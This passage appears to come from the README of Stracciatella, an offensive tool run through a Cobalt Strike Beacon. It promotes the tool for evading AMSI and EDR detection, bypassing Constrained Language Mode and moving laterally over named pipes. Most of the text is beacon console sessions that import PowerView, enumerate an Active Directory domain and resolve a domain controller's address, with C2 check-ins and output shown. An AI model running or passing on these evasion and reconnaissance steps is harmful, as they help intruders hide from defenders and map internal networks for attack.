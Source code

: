 
One of the strategies for working with Stracciatella could be to configure a long enough pipe read timeout (1), launch it on a remote machine (2) thus having option for lateral movement over named pipe with a litle help of Stracciatella.

The advantage over `powerpick` is that the Stracciatella does not patch _AMSI.dll_ in the way like Powerpick does (_AmsiScanBuffer_ patch), thus potentially generating less forensic noise as seen by EDRs looking for in-memory patches. Also, Stracciatella will eventually be able to stabily bypass _Constrained Language Mode_ which is currently not possible using `powerpick`.:

```
beacon> stracciatella-import PowerView.ps1
[+] host called home, sent: 143784 bytes

beacon> stracciatella Get-Domain
[*] Tasked Beacon to run Stracciatella: Get-Domain
[+] host called home, sent: 264483 bytes
[+] received output:

Forest                  : contoso.local
DomainControllers       : {dc.contoso.local}
Children                : {us.eu.contoso.local}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : contoso.local
PdcRoleOwner            : dc.eu.contoso.local
RidRoleOwner            : dc.eu.contoso.local
InfrastructureRoleOwner : dc.eu.contoso.local
Name                    : eu.contoso.local

```

Finally, Stracciatella may be easily used by some other tools/C2s that don't offer any functionality to evade powershell protections.

Whenever `stracciatella` returns the 2 error (_ERROR_FILE_NOT_FOUND_) that is because Stracciatella timed out while internally awaiting for data to be written to its named pipe. 

```
beacon> stracciatella Resolve-IPAddress dc1.bank.corp
[*] Tasked Beacon to run Stracciatella: Resolve-IPAddress dc1.bank.corp
[+] [11/02 03:32:50] host called home, sent: 1007245 bytes
[+] [11/02 03:33:13] host called home, sent: 191805 bytes
[-] Could not connect to pipe (\\.\pipe\85f2acfe-2ca9-4364-af08-f1c654966c1a): 2.
```

This can be remediated however by adjusting Straciatella's timeout parameter using:

```
beacon> stracciatella-timeout 600000

beacon> stracciatella Resolve-IPAddress dc1.bank.corp
[*] Tasked Beacon to run Stracciatella: Resolve-IPAddress dc1.bank.corp
[+] [11/02 04:01:11] host called home, sent: 1007265 bytes
[+] [11/02 04:01:33] host called home, sent: 191805 bytes
[+] received output:

ComputerName  IPAddress 
------------  --------- 
dc1.bank.corp 10.10.10.5

```
